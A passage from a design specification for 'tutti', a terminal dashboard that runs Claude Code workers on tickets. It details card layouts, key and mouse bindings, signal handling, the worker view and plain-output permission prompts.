- **Current's boxes keep their height.** A full card is always 5 lines, its frame and 3 lines inside it: its head, its title and its action line, the action line blank while it has none (`src/ui/Card.tsx`'s `layoutOf`, `cardLines`). A card was as tall as its content, 4 lines while its worker started and 5 from its first action, the cards of a pane going back to 4 once none had an action line, so Current jumped as workers came and went; the maintainer wants the boxes a stable height (2026-10-27, tutti-pgl6). Two cards side by side are as tall as each other. The box with no worker is as tall as a full card, its text on its first line; only where the pane has fewer lines for Current does it give up its blank lines, down to its frame and its text. Two exceptions: an attention card grows to show its request and its buttons, its row as tall as it, and the one-line compact layout is a line a card, as it was. Current was already kept room for 5-line cards (`keptLines`), so the dashboard's layout doesn't change.
- **The end-of-run box** (D19, §5 item 14) replaces the Current cards when only workers waiting on you remain. It is placed before the tickets table: the table gives up rows for it, down to its 3, and is left out below them. A box still too tall for the room left names the workers that fit and counts the rest (`…, +2 more`), then leaves out the hand-back's line, then its frame and first words; what `q` does is always drawn.
- **The panel beside the tickets table** (tutti-h2o9, tutti-07nj): in a pane at least 130 columns wide, the table, whose last column rarely fills a wide pane, gives a panel of its height the width of the totals strip's In queue cell less the gap, about two fifths of the pane: the one-column gap between the table and the panel is in the column of the strip's bar before In queue (Totals.tsx's `queueDivider`, which the strip's cell widths and the panel's width both read), blank on every line beside the table, the labels' line included, so that the strip's line runs down into it; the table's right border is in the column left of it, the panel's left border in the column right of it, and the panel reaches the pane's right edge, at least 44 columns, a floor that never wins from 130 columns, where the panel has 51 (maintainer, tutti-ebra, 2026-10-29, which replaced 36% of the pane held to 44–64 columns, whose border fell 6 columns left of the bar at 155 columns and stopped at 64 past 180; tutti-nsw2, 2026-10-30, which put the gap under the bar, where the panel's border had been, the gap one column left of it). The panel's label and contents move with it, its label one column right of In queue's count, as Tickets' label is over its box. Its label is on the `Tickets` label's line. While nothing needs you it shows Up next: the tickets waiting in the queue (Queued, HeldBack, Waiting), the ready ones first, each held one with why as the log last said it (the scheduler's `waitSaid` and `skipSaid`, which it shows with the queue), `+N more` for those that don't fit. A reason follows a `›` (the marks' `waitsFor`, sharing its glyph with `said`) and wraps under its text, not the `›`; it starts `after` and names the ticket or tickets it waits for, in the `live` role, bold where `live` is the terminal's default colour (under `NO_COLOR`, or a scheme that leaves it so), the rest `quiet` (maintainer, tutti-zv69, 2026-10-29, as `touches test/init.test.ts, like running tutti-scod` didn't say which ticket goes first): an overlap `after <id>: both touch <files>`, a blocker or a follow-up's source not merged `after <id> merges` (`after <a>, <b> merge` for several, `after <id> merges: closed but not merged (…)` or `: filed by its worker` where that is why), a solo ticket `after <id> (solo)`, an epic `after its subtickets: <id>, <id>, then +N`. The log says the same words without colour (`skipping tutti-twdw: after tutti-scod: both touch test/init.test.ts`, `<id> waits: after <id> merges`); the queue record's `why` keeps its kinds (`overlap`, `merge`, `solo`, `parent`). While something needs you it shows each Asked ticket's question, then each Blocked ticket, one at a time (`Needs you · 1 of 2`): a question's title, the ticket waiting on it, as much of its description as fits and its options from its metadata, to answer in place through the same path as `Shift+A`'s box (answerQuestion.ts), or a Blocked ticket's hold and what clears it. The look reads each Asked ticket's question from the open list it reads for them already (asked.ts's `askedQuestions`), so the panel costs no bd call. Tab past the last card puts the highlight on the panel; ↑↓, Enter and 1–9 answer there, `]` and `[` move between needs, a click on an option answers, and a question's keys wait out the attention cards' 500 ms guard. An answer recorded wakes the run, which takes its ticket back at once. orchestra's dashboard has no such panel: a departure on purpose (maintainer, 2026-10-27), so that what needs you is answered without leaving the dashboard, and what holds tickets back is on screen rather than in the log.
- **What needs you, in any pane** (tutti-fdv1): the panel is drawn only from 130 columns, so in a narrower pane an Asked ticket was `? for you` with its ticket's title, and nothing on the dashboard said what was asked or listed what needs you. An Asked row's last column is its question's title, once the look has read it (Status's `questions`, as the panel's), else its ticket's, in any pane, and so in the run's summary and its closing log lines, which print the same rows; the worker view keeps the ticket's title. Past the last card `Tab` goes on to the panel, or where there is none to the totals' Needs you cell, then to the table's `? for you` rows, the one it is on drawn in the focus's look (`form.focusedButton`, reversed under `NO_COLOR`); `Enter` on a row, or a click on it, opens the questions box (`Shift+A`'s, §4.11) at its question. A click on a row, or on Needs you, opens what it opens and leaves the highlight where it was, on a card, the panel, a row or Needs you (tutti-2bd4): it doesn't draw what was clicked in the focus's look once the box closes, as `Tab`, then `Enter`, does. Where there is no panel, `Enter` on Needs you, or a click on it, opens a list of what needs you (`src/ui/NeedsList.tsx`, Box `Needs`): the panel's needs one a line, `? <question> <title>` and `■ <ticket> blocked: <why>`, then, faint, the open questions in the run's scope no ticket in the run waits on, which the list reads as it opens (`ReadQuestions`; a read with none open has no toast there). `↑↓` choose, `Enter` or a click opens one: a question in the questions box at it alone, a Blocked ticket in a box saying what clears it, whose `Enter` opens its worker view; answered, left open or closed, the box comes back to the list, the next one chosen, questions answered from it left out until the run's look takes their tickets back. A list with nothing in it once the questions are read stays open (tutti-0749): it says `Nothing needs you`, faint, under its Needs you label, in place of its items, its hint `Esc close`, for 2 s on the toasts' timer (`src/ui/Toasts.tsx`' `Timer`), then closes by itself, with no toast; `Esc`, `Enter` or a click anywhere closes it sooner, and a need coming in meanwhile (an Asked or Blocked ticket in the run's view) is listed as it would have been, and the list doesn't close by itself. A read that failed keeps its own toast, and the empty list closes at once. orchestra has no such list: a departure on purpose, as the panel is.
- **A click on a ticket's ID copies it** (tutti-vkuj): copying an ID took a drag across it, fiddly for a few characters, and toasted `copied` at the screen's foot, far from where you looked. A click on a row's ID cell in the tickets table, on every row whatever its status, copies the ID through the clipboard a drag's copy uses (§7.3's Copying), acting as every click does, on the release, on the cell it was pressed on, with no text dragged, so a drag across the ID still selects text. On a `? for you` row only the ID cell copies; the rest of the row still opens the questions box. For 1.5 s the cell says `✓ copied` in the `closed` style, the done rows' green, in place of the ID, cut to `✓` where the column is narrower (it is at least 7 wide), then the ID is back; a click again in that time copies again and starts the 1.5 s over. A copied ID has no toast; a failed copy keeps the ID and toasts `couldn't copy`, as a drag's does. The click clears OpenTUI's selection, so that a second click soon after selects no word (its double click) to copy over the ID. It is the one click target with no key (§7.3). Up next's IDs and Current's cards don't copy: a click on a card opens its worker view.
- **A taller pane gives Current room, not the tickets table.** Current is kept room for a full card for each of up to 6 of the workers the run may have, two to a row from 120 columns, and a line for each of the rest; the tickets table takes what is left, 3 to 10 rows. orchestra's table takes about a third of the pane, which put six workers' cards on compact lines in an 80×50 pane that holds them whole. A departure on purpose (maintainer, 2026-10-22). As orchestra's, the table's height comes from the pane and the workers the run may have alone, not the cards there are, so it stays put while workers come and go. Tickets waiting to merge or merging have cards without a worker's slot, so where the cards outnumber the slots Current is kept a line for each card, and the table is left out before Current would draw over the foot; a compact box with too few lines for a line each keeps the highlighted card and those waiting for you, and ends in `+N more` (tutti-gf62).
- **The hint** names the keys there are. `?` opens a key-help overlay. Taller than the pane, as the dashboard's is at the minimum size and the worker view's below 24 rows, it leaves out its blank lines, then shows its keys a window at a time (`Keys  1–12 of 18`), `Esc close · ↑↓ PgUp PgDn scroll` always drawn under them; `↑`/`↓`, PgUp/PgDn, `g`/`G` and the wheel scroll it (tutti-bnhb).
- **Unchanged from orchestra:**
  - the tickets table's stable height, its `+N earlier tickets` row, and leaving it out in short panes
  - cards two to a row from 120 columns, a row as tall as its tallest card (an attention card; the others are 5 lines, above); the one-line compact mode when the pane can't hold a card each, its IDs, statuses and times lined up as columns, each as wide as the widest on screen, the times right-aligned, so that the titles start at one column; spaces only, no lines (orchestra-1dvh). Without orchestra's numbers, each line starts with its mark, the ID straight after it
  - the wind-down line (`■ ■ ■ ■  Winding down · 3 running, no new tickets`) and the queue marked `held`
  - a 3-second tick for elapsed times

The latest-action line uses tutti's own glyph (`▸`), not Claude Code's `⏺` (§7.5, branding).

### 7.3 Keys and mouse

**Key commands.** Each screen's keys, and each box's, are one list of commands (`src/ui/keyCommands.ts`): a command's keys, what pressing one does, whether it is there now, and how the hint and the key help name it. The screen's hint, its key help and its bindings are all drawn from that list, so that every key it binds has a row in its key help and the hint names only keys it has; a box draws its keys from the list it is bound from. A key whose command isn't there now goes to the next command in the list with that key. The key help ends with the global keys' rows (`Ctrl+C`, `Ctrl+Z`, a drag). On the dashboard the hint names `d` and `a` where they answer the highlighted card's request, drawn with its buttons (§4.5): `a` only where it allows it, so neither for a card with no request highlighted (tutti-rvzn.8). The forms shown without the run's input layers, tutti init's form and the start question, are drawn and bound the same way, on a keymap of their own (`useFormCommands`): there a key whose command isn't there now goes on to the focused field, as if unbound, so the start question's `j`, `k` and Enter reach its description while it is typed in (tutti-1und).

**Input layers.** The layers are the composer or another text field; then an open box (quit, stop, an answer form); then the key help's, while it is open over the view (its scroll keys, §7.2); then the view's keys; then global keys. A focused text field takes every printable key. Ctrl+C is always global. Use `@opentui/keymap` for the layers.

| Input | Dashboard | Worker view |
|---|---|---|
| `Tab`, `Shift+Tab`, arrows | move the highlight between cards; inside an attention card, between its buttons; `Tab` past the last card on to the panel or Needs you, then the `? for you` rows (§7.2) | move between transcript items |
| `Enter`, a click | open the highlighted card; press the focused button; on a `? for you` row, the questions box at its question; on Needs you without the panel, the list of what needs you (§7.2) | expand or collapse the selected item; press the focused button |
| `Esc`, a click on `← Dashboard` | close an open box | leave the composer, then close the whole ticket, then the view |
| `Esc`, then `Tab` and `Enter` | | switch workers: back to the dashboard, where `Tab` highlights the other's card and `Enter` opens it. `Tab` stays the transcript's, so the view has no key of its own for it (§7.2) |
| `d`, `Shift+D` | deny the target request; deny with a reason | the same |
| `a` | allow the target request, only without `defaultToNo` (§4.5) | the same |
| `r` | allow for this run (not with `suppressAlwaysAllowRule`, nor without a suggested `addRules` that allows) | the same |
| `1`–`4` inside a question | pick an option | pick an option |
| `i`, a click on the composer | | focus the composer; `Enter` sends, `Alt+Enter` or `Ctrl+J` adds a new line |
| `t`, a click on `▾ whole ticket` or `▴ less` | | open or close the whole ticket (§7.5); while the composer has the focus, `t` types |
| `Ctrl+X` | | interrupt the worker's turn (asks first); the worker becomes steered |
| `Ctrl+R` | | release a steered worker (§4.3) |
| `Ctrl+T`, a click on **File as ticket** | | once the worker has finished, file what you wrote in the composer as a new ticket (§7.5) |
| `s` | stop after current, or keep taking tickets (asks y/n) | |
| `Shift+A`, a click on **Answer** | the questions box: the open question tickets of the run's scope, put one by one in the answer form (§4.11; the hint names it while a ticket is Asked) | an Asked ticket's: the questions box at the question it waits on |
| `Ctrl+C` | the quit box (D15): `s` stop after current, `q` quit now, `Esc` cancel; a second Ctrl+C quits now (§4.8) | the same |
| `Ctrl+Z` | a toast: `tutti can't be suspended: s stops after the current tickets, Ctrl+C quits` (D18) | the same |
| the wheel, PgUp/PgDn, `g`/`G` | | scroll the transcript, or the whole ticket while it is open; jump to the top or the end |
| `?` | key help | key help |
| a drag | select text; copied on release (below), with a toast | the same |
| a click on a ticket's ID | copy it, its cell saying `✓ copied` for 1.5 s (§7.2); no key | |

**The mouse** (D9):

- Single clicks only. OpenTUI reports no click count, and no double-click meaning is defined.
- Every click target has a key, but one: a ticket's ID in the tickets table, whose click copies it (§7.2, tutti-vkuj), a shortcut for a drag's copy, which has no key either. Under `--no-mouse` there is no target, and the terminal's own selection copies.
- A click acts on the left button's release, on the cell it was pressed on, with no text selected (`src/ui/click.ts`'s `clickable`). OpenTUI starts a selection on the press over text and hands that same press to the targets under it, so a drag that selects a card's ID or title, a command on an attention card or a tool line, to copy it, opens no worker's view, presses no button and toggles no line. The composer, a field to type in, is focused on the press, as a terminal's text field is.
- A box open over the view takes the mouse as it takes the keys: under it, a backdrop over the whole screen stops every click, drag and scroll, so that the view under the box takes none until it closes (`← Dashboard` included). A box a view draws and binds itself (the worker view's interrupt question, the Interview view's leave question) closes when the view goes, so that the view after it takes its keys.
- The wheel scrolls the scrollbox under the pointer and never types into a focused input. Guard against OpenTUI #1661 by filtering mouse sequences (`<64;…M`) out of input events.
- Mouse capture can be turned off with `--no-mouse` or `"mouse": false` in the user config (§8.5). The terminal's own selection then works, and every action stays available from the keys.
- The forms drawn in the renderer take clicks too, each doing what its key does. In `tutti init`'s form, **Yes** or **No** answers a confirm (as `y` or `n`), a select's option is chosen and confirmed (as `↑`/`↓` to it, then `Enter`), a checklist's option is ticked or unticked (as `Space` on it), the line to type in is focused, and the scout's `Esc: skip` line skips it (as `Esc`). In the start question an option is chosen (as `Enter` on it), the description or the spec's field is focused, a completion listed under the spec's field is put in it, a row of the file browser is opened or chosen (as `Enter` on it) and the wheel scrolls the browser, and a refine option is chosen; in the answer form a row is picked or its line focused, and a button pressed (as `Space` or `Enter` on it). The init form's stepper takes none, as no key moves between its steps. `tutti init` takes the mouse as a run does: `--no-mouse` or `"mouse": false` leaves it to the terminal. Taking the mouse, every form in the renderer (init's, the start question, the answer form) has the run's guards against #1661 in front of its keys, so a mouse report split between two reads neither cancels it as a lone Esc nor types its rest into a field; a renderer has one set of guards, however many of its screens ask for them. The line-based forms (`TERM=dumb`) are unchanged.

**Copying** uses `pbcopy` on macOS when the session is local, `wl-copy` or `xclip` on Linux when one is installed, and OSC 52 otherwise (over ssh). Terminal.app doesn't support OSC 52, and tmux passes it only with `set-clipboard on`.

### 7.4 Terminal lifecycle and signals

**OpenTUI is configured** with `exitOnCtrlC: false` and `exitSignals: []`. tutti handles every signal itself through the Effect runtime. Left at its defaults, OpenTUI would destroy the renderer on SIGINT, SIGTERM, SIGQUIT, SIGABRT, SIGHUP, SIGPIPE, SIGBREAK and SIGBUS, and on Ctrl+C, before tutti could suspend the workers. Its handler only calls `renderer.destroy()`: the process exits only if nothing else keeps the event loop alive, so tutti would carry on without its screen. `exitSignals: []` turns all eight off.

**Clean-up on any exit.** `uncaughtException`, `unhandledRejection` and the Effect runtime's fatal path all call `renderer.destroy()` before printing anything. OpenTUI's own handlers report errors but "do not destroy the renderer".

**Mode 2027.** OpenTUI 0.7.0 sets grapheme clustering (`CSI ? 2027 h`) at start, whether or not the terminal answered its DECRQM query, and `destroy()` leaves it set while it resets every other mode (#1727). tutti asks the terminal for mode 2027 (DECRQM, then DA1, waiting up to 250 ms) before the renderer starts, and once the renderer has closed sets it back: `CSI ? 2027 h` when the terminal said it was on, else `CSI ? 2027 l`.

**Signals, in any mode:**

| Signal | What it does |
|---|---|
| SIGINT, SIGTERM, SIGHUP | quit now, as §4.8. A second abandons the merge under way; a third exits at once. With the dashboard, Ctrl+C is a key (raw mode) and opens the quit box (D15); a SIGINT sent with `kill` quits now |
| SIGUSR1 | wind down (orchestra's drain). Node reserves SIGUSR1 for its inspector; M0 checks that Bun delivers it to a handler. SIGUSR2 is the fallback |
| SIGTSTP | ignored, with a log line (D18). In the dashboard, Ctrl+Z is a key (raw mode) and shows a toast |

Workers and commands run in process groups of their own (§3.2), so none of these reach them directly.

**A panic** in a fiber is logged with its stack, the renderer destroyed, and the run ends as orchestra's `PANIC` (exit 4), with workers suspended as in §4.8.

**Resize.** Layout reflows on the next frame. Terminal.app leaves the rightmost column stale after a resize (#1110), so tutti repaints fully after each resize.

### 7.5 The worker view

Opened by selecting a card. Full-screen, with orchestra-style chrome:

```

 ← Dashboard   ⣾ tut-zq4  testing  6m53s  ≈1% (estimate)  context 126k of 200k  0.8 GB

╭─ Ticket ───────────────────────────────────────────────────────────────── feature · P2 ─╮
│ Add an undo stack for property edits                                                    │
│                                                                                         │
│ Each property edit pushes its own entry, so undoing a drag takes as many undos as the   │
│ drag had frames. Group the edits of one gesture into one entry, closed when the gesture │
│ ends, so one undo reverts a whole drag…                                                 │
╰─────────────────────────────────────────────────────────────────── ▾ whole ticket  t ─╯
───────────────────────────────────────────────────────────────────────────────────────────
  Read  internal/history/undo.ts
  Edit  internal/history/undo.ts                                       +42 −3
  ▸ Bash  scripts/check-fast.sh
      SUITE: unit
      ✓ 214 tests (3.1s)
  The undo stack now records property edits in groups, so one undo reverts
  a whole drag. Next I'll add the keyboard binding.
───────────────────────────────────────────────────────────────────────────────────────────
 > _                                                    Enter send · Ctrl+X interrupt
```

- **The head** (redesigned once built, tutti-cxgo.4 and tutti-cxgo.6, replacing what D1 and D2 of the worker-view design put there):
  - Above it, a blank line, as the dashboard has above its title line (§7.11's pill "with a blank line above"), so the top row doesn't move as you go between the dashboard and a worker: the maintainer's choice over dropping the dashboard's. It belongs to both transcript views' head, the Interview view's too. It is kept wherever the dashboard keeps its own, down to the minimum size (§7.7), and left out only below it.
  - Line 1, on one line: `← Dashboard`, the card's mark, the ticket's ID and its status (`steered` beside it), then what the worker consumes (**The figures**, below). The ticket's type and priority are in the box's top border (below), not on line 1 (they were, faint, at its end, until tutti-cxgo.6), but where the box isn't drawn. The card's own head on the dashboard is unchanged: only the worker view builds line 1 this way, so its time and memory show once. A narrow pane never wraps it: it drops the memory, then the warning's reset time, then the compactions, then whole parts from the end (the type and priority where line 1 has them, the warning, the context, then the estimate); the link, mark, ID, status and time are never dropped, nor the estimate its word; what still doesn't fit is cut with `…`.
  - A blank line, then **the ticket** in a box named `Ticket` (below), the ticket's title in it, in bold, wrapped at words to at most 2 lines and cut with `…` after. The title has no line of its own outside the box, so the head is as tall as it was with one.
  - A short pane hands the head's parts out in priority order and keeps the transcript's rows: from 30 rows, all of it; below, a row fewer a row, the description loses lines down to 2, then the box's blank line between the title and the description goes, then the blank line above the box; then, where there is no room left, the box, borders and all. The title stays. At the minimum size there is no box: line 1, ending with the coloured type and priority, the only place left for them, and under it the title alone in bold, two columns in; `t` still opens the whole ticket. The blank lines and the description's lines past 2 go before the request panel's lines.
- **The ticket** (D1 of the worker-view design, tutti-cxgo; its box tutti-cxgo.4, one box with the title since tutti-cxgo.6): a departure from orchestra's worker view, on purpose, so that on entering the view you know what the worker is doing.
  - Under line 1, a box in the whole ticket's own rounded frame, the full pane's width, a space inside each side. Its top border has `Ticket` at its left, `emphasis` bold, and the ticket's type and priority at its right, `feature · P2`, each in its colour: the type `typeBug`, `typeFeature`, `typeTask`, `typeEpic` or `typeChore` (bug red, feature green, task blue, epic violet, chore grey), any other type in the text's colour; P0 `priorityUrgent` (red), P1 `priorityHigh` (orange), P2 to P4 faint; the ` · ` between them faint (§7.11). The words keep their meaning under `NO_COLOR`, and the type, which bd gives from a ticket, is sanitised. A narrow pane keeps `Ticket` and drops the priority, then the type, rather than crowd the border's corners, keeping at least 3 of its `─` between them. Inside: the title in bold (above); a blank line; then the ticket's description: its first lines wrapped at words, in the normal text colour (the main thing to read, not secondary), its inline Markdown shown (bold, code, a link's label, a bare URL) but no headings, lists, rules or code blocks; up to 5 lines, as many as it takes when shorter, none at the minimum size (§7.7); cut with `…`. `▾ whole ticket  t` is in the box's bottom border, at its right, in the `link` colour, clickable, when there is more than shows: the description cut, or any of design, acceptance criteria, notes, links (a ticket waiting on this one among them, which bd ready counts as `dependent_count` before bd show lists it). No description: `No description.`, faint, inside it. Only the control is a click target: a drag over the box selects its text.
  - One box, two heights. `t`, or a click on the control, grows the same box into the whole ticket, its control where it was: only its height and what is inside change, so it reads as the box growing and shrinking, not one thing replaced by another. Its top border keeps `Ticket`, the type and the priority, and the title and the blank line under it stay at its top while what is under them scrolls. It is up to 60% of the pane's height, its frame and title included (as tall as its content when that is less), the transcript shrinking for it. It is drawn with `<markdown>`: the whole description, design, acceptance criteria as a checklist (`☐`, `☑` for one ticked), notes, links (`parent`, `blocked by`, `related`, `blocks` for a ticket waiting on this one, as `bd show --include-dependents` gives them) and labels, each left out when empty; it ends with the labels. Its bottom border has `▴ less  t · Esc` at its right, with `↓ N more lines ──` before it while there is more below, so the control moves down with the box's bottom edge. PgUp/PgDn and the wheel scroll it while it is open. `t`, a click on `▴ less`, or `Esc` shrinks it back: `Esc` before it leaves the view.
  - The issue is the one the run read as it took the ticket up, kept on its ledger entry; opening the panel reads it again with one bd show (the screen's `ReadTicket`, with `--include-dependents`), so notes added during the run, and the tickets it blocks, show. All of it is text a ticket author or worker wrote: sanitised as it enters `RunView` (§7.10), its several lines kept; the links' IDs and labels are escaped for the Markdown.
- **Items.**
  - Assistant text renders as Markdown (`<markdown>`).
  - Each tool call is `Tool  summary`, wrapped to the pane's width under its summary, its result collapsed to a mark at the end of its last line, or on a line of its own when it doesn't fit there: `✓`, an error's first line, or `+N −M` for edits.
  - A message sent to the worker (tutti's prompt, a nudge, yours) is `› ` and its text, its lines wrapped to the pane's width.
  - A collapsed tool call or message takes at most 6 lines; the last is cut with `…` when there is more.
  - `Enter` on a selected item, or a click, expands it: an edit's diff (`<diff>`), a command's output (`<code>`), a read's range, a message's whole text.
  - Subagent work (forwarded with `forwardSubagentText`) is nested under its Agent call by `parent_tool_use_id`, collapsed by default.
  - Thinking is hidden.
- **The figures**, on line 1 after the status: what the worker is consuming (worker-view design D2, tutti-cxgo.2; a line of their own under the head until tutti-cxgo.4 merged them into line 1). A departure from orchestra's worker view, which has none, on purpose: you should know, on entering the view, what the worker costs and how near its context is to compacting. In order, two spaces between parts:
  - its time on the ticket, from when the run took it up, plain (no `⏱`: it has an emoji form), in the text's colour, not faint;
  - its tokens are not among them, and since tutti-cxgo.6 the worker view shows them nowhere, nor the model calls, the dollars at API prices or the context's split: the maintainer finds line 1 enough. The run's summary keeps its own Spent line (§7.1), and `state.json` and the events keep the spending. The figures are live: a worker does its whole ticket in one long turn, so while a turn goes on Spending counts each assistant message's `message.usage` by model, once per API message (`message.id`: the SDK repeats one message's usage on every content block it splits it into), a subagent's too, and the turn's result replaces that count with its own share, so nothing is counted twice. What is recorded (the `turn` records, the run's figures and summary, the reviewer's and analytics' numbers) still comes from the results alone. The dashboard shows the live count at most once a second, the latest of a burst; a result's sums at once;
  - on an API key, its dollars, the SDK's `total_cost_usd`, in the text's colour: money spent. On a subscription login the SDK's figure is an API-price estimate, not money spent, so the line has no dollars there; it has the ticket's estimated share of the account's five-hour window instead, `≈1% (estimate)`, or `< 1% (estimate)` for a share under half a point (a space after `<` since tutti-dzbv) (without `5h window` before it, since tutti-cxgo.4: the warning, below, keeps its window's name, as it can be the weekly one), the figure and its word `(estimate)` in `estimate` italics (§7.11), which the word keeps under `NO_COLOR`. Claude Code reports the account's windows, not a session's, so the share is an estimate: the five-hour window's rise over the run (each `unifiedWindows` figure's rise from the last, a reset counting the next window's figure from 0) shared among the run's workers in proportion to each one's dollars at API prices, which weigh the model and the cache's reads roughly as the limits do. It overstates while the account is used beside the run, which tutti can't see; the organs' calls are left out, as the summary's Spent leaves them. Until the run has heard the window, the line has no share. While a turn goes on, its dollars (and so the share, or the dollars on an API key) are its live tokens at API prices until its result's `total_cost_usd` replaces them: weighted as Anthropic prices them (cache reads 0.1×, cache writes 1.25×, output 5× input; `src/run/prices.ts`), at the model's price as a result of the run gave it, or tutti's table of input prices, or else at the session's own dollars per weighted token from its last result;
  - its context window, against the window Claude Code compacts at (the SDK's `maxTokens`, its resolved autocompact window: 200k on a 1M-token model), as amounts, `context 126k of 200k`: `context` and the window in the text's colour, not faint, `of` faint, and no gauge (it had one, `▰▰▰▰▰▰▱▱▱▱`, until tutti-cxgo.6, which added nothing beside the amounts); the figure in the text's colour below 70%, `notice` from 70%, `needsYou` from 90%. The dashboard's title line keeps its own gauge (§4.12). The host asks the session (`getContextUsage`, detail `summary`: from the last response's usage, no token-count calls) after an assistant message of its own, not a subagent's, at most once every 10 seconds, and after each finished turn, so the context shows from the worker's first model call; until it has answered, the line has none. Worker-view design D2 chose "after each finished turn, not on a timer", which left the gauge empty for a worker's whole ticket (tutti-cxgo.5);
  - its compactions, once there has been one, `↻ 2 compactions` (the ledger's tallies);
  - its processes' memory, as its card shows it;
  - near or at a usage limit (`allowed_warning`, `rejected`), the account's figure as a warning, `⚠ 5h window 92% · resets 14:20`, `notice`, bold once reached, so you know why the worker may stop.
  
  Each part is segments of its own, two spaces from the next, so cutting the line never joins them; a narrow pane drops them as line 1 says (above). They are not a click target: the breakdown a click on them opened, **Spent**, the whole ticket's last section from tutti-cxgo.3, is gone from the worker view since tutti-cxgo.6, the maintainer's choice.
- **A narrow pane.** Line 1 keeps to one line, as above, and the title to 2; the Interview view's head wraps onto lines under it; the hint wraps every key onto as many lines as it takes, breaking between words and between keys, never cut. All are outside the transcript's `scrollbox`, so their height doesn't touch #1514.
- **Attention.** Open requests show as a panel above the composer, with the same buttons and rules as the card, and each request's whole input, wrapped to the pane's width and drawn by its tool (§4.5). A pending hand-back for a steered worker shows there too (§4.3).
- **The composer** sends your message into the worker's inbox (§4.1). The worker becomes steered.
  - While a turn is under way, the message is shown as `queued` until the CLI reports it `started` in `command_lifecycle`, or a `result` lists it. An interrupt that cancels it removes the mark (Ctrl+X, below). It may be folded into the running turn or start a later one, perhaps with another message (§4.1).
  - Toasts in the view sit on the rule over the composer and the lines above it, never over what you type (§7.11).
  - Your messages are logged without their text (`MESSAGE: you → <id> (212 characters)`) and tallied for the reviewer.
  - While its ticket waits to merge or merges, the run holds your messages until the merge is over (§4.3). A line over the composer says so, `<id> is merging: tutti holds your messages until its merge is over` (`<id> waits to merge: …` in `ToMerge`), and each message you send is shown `held` under it until it is sent, or `not sent` once the worker has finished with it still held.
  - Once the worker has finished (its ticket merged, closed or set aside, its card gone), the view keeps showing it, and the composer can't send: `<id>'s worker has finished: tutti can't send it messages` replaces the steered line, the placeholder says `the worker has finished`, and `Enter` keeps what you typed and toasts `<id>'s worker has finished: your message wasn't sent`. The head says `finished` in place of the last card's status, with `•` for its mark, no `steered`, and its time stopped where the view first drew it finished; the hint drops `Enter send`, `Ctrl+X interrupt` and `Ctrl+R release`, which do nothing then.
  - So that a follow-up written for a finished worker isn't lost, `Ctrl+T`, or the **File as ticket** button on the finished line, files what you typed as a new ticket (tutti-g0wd): bd creates it with the text's first line as its title (cut to 60 characters) and the whole text as its description, discovered from the finished ticket. A toast says `filing it as a ticket…`, then `filed <new id>: <title>`, and only then is the composer emptied, of the text filed, not of what you typed since; if bd fails, the toast says `couldn't file it as a ticket: <why>` and the text stays. The filing outlives the view (tutti-fgr2): leave it before bd answers, and the toast still comes, on whatever screen shows; reopen it, and the composer has the text again, while bd still files it or once it has refused it, and `Ctrl+T` says `still filing the last one as a ticket` until bd answers. The log says `FILED: <new id>, written for <id>'s worker after it had finished`, without the text, as `MESSAGE` lines have only its length. The run files it after its end too, while the view still shows; during the run, the ticket is open like any other, so the run may start it.
  - A finished worker whose ticket waits on a question it filed (`Asked`) has **Answer** on the finished line, before **File as ticket**, and `Shift+A` (the hint's `A answer`): either opens the dashboard's questions box (§4.11, §7.2) over the view, at that question (tutti-fdv1). The view's title stays the ticket's, where the dashboard's row says the question's.
- **Ctrl+X** interrupts the turn (after a confirmation) and cancels messages still queued, as quitting does (§4.8), and those held while its ticket merges (§4.3). The SDK's interrupt also ends the worker's background tasks: tutti declares no per-task stop control (`perTaskStopAffordance`).
- **Bounded rendering.**
  - At most the last 200 items are mounted, with `stickyScroll` to the bottom while you're at the bottom.
  - Scrolling past the top loads older items from tutti's transcript of the worker (§4.4), 200 at a time, unmounting the newest beyond 600 in all.
  - Why: OpenTUI's `scrollbox` culls but still lays out every child, and OpenTUI's native memory grows with the mounted items (#1493). With OpenTUI 0.6.6, frequently updated texts (16 cards at 10 Hz, a streamed message) leave it flat. What grows it is each mounted transcript item once drawn: about 0.75 MB an item, 0.12 MB when an item is on screen only briefly. Unmounting gives it back: going from 600 items to 200 dropped it from 389 to 166 MB within a minute. So the bounds hold it: 200 items level off at about 170 MB of native memory, 600 at about 470 MB, while unbounded it grows 46 MB a minute (docs/spikes/05-opentui-soak.md, §§ 1–3). OpenTUI 0.7.0 costs about a fifth less, 135 MB at 200 items and 365 MB at 600, but unbounded it still grows, 35 MB a minute (§ 8 there), though #1493 was closed upstream: its script churns rows, where a transcript keeps them mounted.
  - Scrolled back, 600 items cost about 300 MB more than the view at the bottom, and native memory still creeps about 3 MB a minute after 30 minutes. That is acceptable for a view you only visit: once the view is back to 200 items, the memory goes back to the system.
  - Collapsed items have a fixed height, which avoids `stickyScroll`'s pull back to the bottom after the layout shrinks (#1514). tutti wraps a tool call or a message itself, to the pane's width, and gives its box the height of its lines, rather than leaving OpenTUI to wrap and measure the text. The height changes only with the pane's width, and grows, never shrinks, as a call's result comes.
- **Branding** (the Agent SDK's guidelines): no Claude Code-branded ASCII art or "visual elements that mimic Claude Code". The view uses tutti's own glyphs and layout, and the colour scheme's colours (§7.11; `orchestra` by default). The SDK's guidelines allow "Claude" in a menu already labelled "Agents" and "Powered by Claude", and forbid naming the product "Claude Code". tutti's chrome names neither.

### 7.6 Plain output

Plain output is used when stdout or stdin isn't a TTY, with `TERM=dumb`, or with `--plain`. As orchestra: log lines instead of the live view, no start question, and no mouse.

Attention requests are answered with `tutti answer` (D20). Each request's log line says how:

```
PERMISSION: tut-9a1's worker asks: Bash(rm -rf build) (held by the safety check); answer with: tutti answer a3f9 allow --confirm | deny
```

At 4 minutes the run holds as usual (`BLOCKED`). The run ends as usual (D19), suspending workers that still wait.

### 7.7 Terminal compatibility

- **Any terminal emulator with 256 colours or more**, inside tmux or screen, or over ssh. OpenTUI maps RGB to the nearest of the 256 colours. It has no 16-colour fallback (#852), so a terminal reporting fewer than 256 colours gets plain output (§7.6), with a line saying why. The terminal's colour depth comes from `$COLORTERM` and `$TERM` (`Tty`).
- **The minimum size** is 60×16. Below it the dashboard shows only the totals line and the hint, as orchestra's smallest layout does.
- **The Kitty keyboard protocol** is used where detected, with the legacy encoding otherwise. Bindings avoid keys that legacy encodings can't tell apart. The composer's `Alt+Enter` has `Ctrl+J` as its alternative.
- **Over ssh**, colour depth is trusted only from the environment, so `COLORTERM=truecolor` is documented.
